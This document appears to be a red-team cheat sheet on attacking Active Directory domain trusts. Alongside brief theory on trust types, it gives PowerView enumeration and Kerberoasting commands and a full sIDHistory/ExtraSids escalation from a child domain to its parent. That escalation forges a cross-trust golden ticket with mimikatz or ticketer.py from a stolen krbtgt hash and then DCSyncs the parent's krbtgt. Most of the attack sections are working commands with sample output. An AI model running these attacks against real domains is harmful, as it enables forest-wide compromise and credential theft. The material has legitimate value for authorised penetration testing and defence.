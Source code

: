# Attack Trusts

> Note that the Active Directory domain is not the security boundary; the AD forest is. (Sean Metcalf, [ref](https://adsecurity.org/?p=1640))

* [http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)
* [http://www.harmj0y.net/blog/redteaming/domain-trusts-were-not-done-yet/](http://www.harmj0y.net/blog/redteaming/domain-trusts-were-not-done-yet/)
* [http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/](http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/)
* [https://habr.com/ru/company/jetinfosystems/blog/466445/](https://habr.com/ru/company/jetinfosystems/blog/466445/)

Enum foreign users and groups:

```
PowerView3 > Get-DomainForeignUser -Domain megacorp.com
PowerView3 > Get-DomainForeignGroupMember -Domain megacorp.com
```

List user accounts from a target domain with SPNs set for [Kerberoasting](/pentest/infrastructure/ad/roasting.md#kerberoasting):

```
PowerView3 > Get-DomainUser -SPN -Domain megacorp.local | ? {$_.samAccountName -ne "krbtgt"} | select samAccountName,memberOf,servicePrincipalName | fl
PS > .\SharpView.exe Get-DomainUser -SPN -Domain megacorp.local -Properties samAccountName,memberOf,servicePrincipalName -Filter '(!(samAccountName=krbtgt))'
```




## Theory

* **Trust** 👉🏻 a link between the authentication systems of two domains.
* **Transitive** trust 👉🏻 the trust is extended to objects which the child domain trusts.
* **Non-transitive** trust 👉🏻 only the child domain itself is trusted.
* **Bidirectional** (two-way) trust 👉🏻 users from both trusting domains can access resources.
* **One-way** trust 👉🏻 only users in a trusted domain can access resources in a trusting domain, not vice-versa (the direction of trust is opposite to the direction of access).

Some trust types:

| **Trust Type**           | **Description**                                                                                                                                                 |
|--------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Parent-child             | Domains within the same forest. The child domain has a *bidirectional transitive* trust with the parent domain.                                                 |
| Tree-root (intra-forest) | A *bidirectional transitive* trust between a forest root domain and a new tree root domain. Created implicitly when a new domain tree is created in the forest. |
| Forest                   | A *transitive* trust between two forest root domains. Enforces SID filtering.                                                                                   |
| External (inter-forest)  | A *non-transitive* trust between two separate domains in separate forests that are not already joined by a forest trust. Enforces SID filtering.                |




## sIDHistory/ExtraSids Hopping

* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)
* [http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/](http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/)

Check if SID filtering is enabled for a trust:

```
Cmd > netdom.exe trust child.megacorp.local /domain:megacorp.local /quarantine
SID filtering is not enabled for this trust. All SIDs presented in an
authentication request from this domain will be honored.
```

Use PowerView to enumerate domain trusts:

```
PowerView3 > Get-ForestDomain

Forest                  : megacorp.local
DomainControllers       : {DC03.megacorp.local, DC04.megacorp.local}
Children                : {child.megacorp.local}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  :
PdcRoleOwner            : DC03.megacorp.local
RidRoleOwner            : DC03.megacorp.local
InfrastructureRoleOwner : DC03.megacorp.local
Name                    : megacorp.local

Forest                  : megacorp.local
DomainControllers       : {DC01.child.megacorp.local, DC02.child.megacorp.local}
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : megacorp.local
PdcRoleOwner            : DC01.child.megacorp.local
RidRoleOwner            : DC01.child.megacorp.local
InfrastructureRoleOwner : DC01.child.megacorp.local
Name                    : child.megacorp.local

PowerView3 > Get-DomainTrust | ft

SourceName           TargetName           TrustType                TrustAttributes TrustDirection
----------           ----------           ---------                --------------- --------------
child.megacorp.local megacorp.local       WINDOWS_ACTIVE_DIRECTORY WITHIN_FOREST   Bidirectional
child.megacorp.local megacorp.com         WINDOWS_ACTIVE_DIRECTORY FILTER_SIDS     Bidirectional

PowerView3 > Get-DomainTrustMapping | ft

SourceName           TargetName           TrustType                TrustAttributes TrustDirection
----------           ----------           ---------                --------------- --------------
child.megacorp.local megacorp.local       WINDOWS_ACTIVE_DIRECTORY WITHIN_FOREST   Bidirectional
child.megacorp.local megacorp.com         WINDOWS_ACTIVE_DIRECTORY FILTER_SIDS     Bidirectional
megacorp.com         child.megacorp.local WINDOWS_ACTIVE_DIRECTORY FILTER_SIDS     Bidirectional
megacorp.local       child.megacorp.local WINDOWS_ACTIVE_DIRECTORY WITHIN_FOREST   Bidirectional
```

Exploiting Bidirectional-ParentChild trust between child.megacorp.local ⟷ megacorp.local.

For creating a cross-trust golden ticket we'll need:

1. child domain FQDN (`child.megacorp.local`);
2. name of the child domain's DC machine account and its RID (`DC01$`, `31337`);
3. the SID of the child domain (`S-1-5-21-4266912945-3985045794-2943778634`);
4. the SID of the parent domain (`S-1-5-21-2284550090-1208917427-1204316795`);
5. compomised krbtgt hash from the child domain (`00ff00ff00ff00ff00ff00ff00ff00ff`);
6. ???
7. PROFIT.

```
1.
PS > $env:userdnsdomain
CHILD.MEGACORP.LOCAL

2.
PowerView3 > (Get-DomainComputer DC01.child.megacorp.local | select ObjectSID).ObjectSID
S-1-5-21-4266912945-3985045794-2943778634-31337

3.
PowerView3 > Get-DomainSID
S-1-5-21-4266912945-3985045794-2943778634

4.
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
S-1-5-21-2284550090-1208917427-1204316795-502
```

Create cross-trust golden ticket:

```
mimikatz # kerberos::golden /domain:child.megacorp.local /user:DC01$ /id:31337 /groups:516 /sid:S-1-5-21-4266912945-3985045794-2943778634 /sids:S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 /krbtgt:00ff00ff00ff00ff00ff00ff00ff00ff /ptt
Or
$ ticketer.py -nthash 00ff00ff00ff00ff00ff00ff00ff00ff -user-id 31337 -groups 516 -domain child.megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -extra-sid S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 'DC01'
```

For DCSyncing we'll need only parent domain FQDN (`megacorp.local`):

```
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest())[0].RootDomain.Name
megacorp.local
```

DCSync:

```
mimikatz # lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local
```




## UnD + PrinterBug

* [https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe](https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe)




## Visualization (yEd)

* [http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/](http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/)
* [https://github.com/HarmJ0y/TrustVisualizer](https://github.com/HarmJ0y/TrustVisualizer)
* [https://github.com/snovvcrash/TrustVisualizer](https://github.com/snovvcrash/TrustVisualizer)
* [https://www.yworks.com/products/yed](https://www.yworks.com/products/yed)

```
PowerView3 > Get-DomainTrustMapping | Export-Csv -NoTypeInformation trusts.csv
$ git clone https://github.com/snovvcrash/TrustVisualizer && cd TrustVisualizer
$ pip3 install -r requirements.txt
$ python3 TrustVisualizer.py trusts.csv
```
